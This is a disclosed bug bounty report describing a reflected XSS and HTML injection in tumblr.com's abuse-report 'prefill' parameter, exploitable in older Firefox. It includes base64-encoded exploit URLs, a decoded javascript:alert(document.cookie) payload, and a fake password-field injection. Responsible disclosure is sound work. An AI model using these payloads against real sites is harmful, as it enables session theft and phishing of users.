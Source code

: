 # [tumblr.com] 69< Firefox Only  XSS Reflected

## Report Details
- **Report ID**: 915756
- **URL**: https://hackerone.com/reports/915756
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-05T08:45:37.031Z
- **Disclosed**: 2020-07-09T17:11:04.710Z

## Reporter
- **Username**: fuzzme
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
Description :

Hello, i have found a XSS Reflected in https://www.tumblr.com/abuse/start?prefill=<base64>
But the XSS only works in versions of firefox that are below 70.
Because its been blocked by CSP, but the version below 69 of firefox is vulnerable.
Here's a great article about this subject https://portswigger.net/daily-swig/firefox-vulnerable-to-trivial-csp-bypass
But CSP dont block HTML tag in the lastest version of all navigators

Vulnerable Url  :

https://www.tumblr.com/abuse/start?prefill=eyJwb3N0IjpudWxsLCJ1cmxyZXBvcnRpbmciOiJodHRwczovL2Z1enptZS50dW1ibHIuY29tLyIsInR1bWJsZWxvZyI6IjxvYmplY3QgZGF0YT1cImphdmFzY3JpcHQ6YWxlcnQoZG9jdW1lbnQuY29va2llKVwiPiIsImNvbnRleHQiOiJibG9nIn0=

Payload :

<object data=\"javascript:alert(document.cookie)\">

Vulnerable Parameter :

/\ Note you must decode the $_GET['prefill'], this is encoding is  in base64 /\
After decoded it, you can see this 

{"post":null,"urlreporting":"https://fuzzme.tumblr.com/","tumblelog":"<object data=\"javascript:alert(document.cookie)\">","context":"blog"}

The array value of tumblelog  is reflected into the HTML this him who as vulnerable
The array value of tumblelog  is the  vulnerable array value

 Steps To Reproduce for XSS Only Firefox :

1. Download firefox 69 at https://ftp.mozilla.org/pub/firefox/releases/69.0/
2. Go to login in your Tumblr account
3. Click to this link, and you will see XSS pop-up

LINK : https://www.tumblr.com/abuse/start?prefill=eyJwb3N0IjpudWxsLCJ1cmxyZXBvcnRpbmciOiJodHRwczovL2Z1enptZS50dW1ibHIuY29tLyIsInR1bWJsZWxvZyI6IjxvYmplY3QgZGF0YT1cImphdmFzY3JpcHQ6YWxlcnQoZG9jdW1lbnQuY29va2llKVwiPiIsImNvbnRleHQiOiJibG9nIn0=

Steps To Reproduce for HTML injection :

1. Go to login in your Tumblr account
2. Click to this link  https://www.tumblr.com/abuse/start?prefill=eyJwb3N0IjpudWxsLCJ1cmxyZXBvcnRpbmciOiJodHRwczovL2Z1enptZS50dW1ibHIuY29tLyIsInR1bWJsZWxvZyI6IjxpbnB1dCB0eXBlPSd0ZXh0JyBwbGFjZWhvbGRlcj0nRW50ZXIgeW91IHBhc3N3b3JkJz4iLCJjb250ZXh0IjoiYmxvZyJ9
3. And you will see a HTML input  with `enter your password`


POC:

The attachment video

## Impact

The vulnerability allow a malicious user to inject html tags and execute Javascript which could lead to steal user's session, and performing phishing.

## Attachments
- XSS.mp4
- HTMLinjection.mp4
